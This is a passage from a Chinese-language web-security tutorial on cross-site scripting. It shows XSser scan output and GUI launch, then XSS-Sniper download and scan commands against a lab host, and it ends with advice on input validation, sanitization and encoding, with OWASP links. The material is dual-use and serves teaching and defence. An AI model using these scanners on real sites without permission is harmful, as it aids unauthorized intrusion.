[+] Browser Support: [IE7.0][IE6.0][NS8.1-IE] [NS8.1-G][FF2.0] [09.02]
[+] Checking: url attack with ">PAYLOAD... ok
================================================================================
socket busy, retry opening
Mosquito(es) landed!

[*] Final Results:
================================================================================
- Injections: 1
- Failed: 0
- Sucessfull: 1
- Accur: 100 %
```

也可以使用以下命令使用 GUI：

```
xsser -gtk
```

GUI 的外观如下：



## XSS-Sniper

XSS-Sniper 未包含在 Kali Linux 中，但绝对值得尝试。它是 Gianluca Brindisi 开发的开源工具，可以搜索特定 URL 中的 XSS 漏洞，包括基于 DOM 的 XSS，或者可以爬取整个站点。虽然功能不如 XSser 丰富，但在 XSser 不可用时或用于验证结果时是一个不错的选择。

XSS-Sniper 可以从其 GitHub 仓库下载：

```
git clone https://github.com/gbrindisi/xsssniper.git
```

要对 GET 请求进行基本扫描，只需使用 -u 参数后跟包含测试值的完整 URL：

```
python xsssniper.py -u http://10.7.7.5/bodgeit/search.jsp?q=test
```



Burp Suite Professional 和 OWASP ZAP 包含漏洞扫描功能，可以以良好的准确性检测许多 XSS 实例。W3af、Skipfish 和 Wapiti 等扫描器也可以使用。

## 防止和缓解跨站脚本

与任何其他注入漏洞一样，适当的输入验证是防止 XSS 的第一道防线。此外，如果可能，避免将用户输入用作输出信息。清理和编码是防止 XSS 的关键方面。

**清理** 意味着从字符串中删除不可接受的字符。当输入字符串中不应存在特殊字符时，这很有用。

编码将特殊字符转换为其 HTML 代码表示。例如，& 转为 &amp; 或 < 转为 &lt; 。某些类型的应用程序可能需要在输入字符串中允许使用特殊字符。对于这些应用程序，清理不是一个选项。因此，它们应在将输出数据插入页面并存储到数据库之前对其进行编码。

验证、清理和编码过程必须在客户端和服务器端同时进行，以防止所有类型的 XSS 和其他代码注入。

有关防止跨站脚本的更多信息，可以在以下 URL 找到：



- https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
- https://docs.microsoft.com/en-us/aspnet/core/security/cross-site-scripting
- https://www.acunetix.com/blog/articles/preventing-xss-attacks/
